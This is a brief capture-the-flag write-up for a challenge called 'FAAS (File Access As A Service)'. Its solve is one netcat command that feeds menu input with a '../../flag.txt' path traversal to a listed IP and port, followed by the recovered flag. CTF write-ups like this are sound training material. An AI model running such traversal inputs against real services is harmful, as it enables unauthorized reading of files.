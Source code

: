 # FAAS (File Access As A Service)

This challenge provided a file reader/writer program, we can read the flag in `/flag.txt`.

Solve:`printf "0\n../../flag.txt\n1\n0\n100\n1\n"  | nc 161.97.155.116 1337`

`QnQSec{1e5f0159edd5b616423e15bd973971f3}`
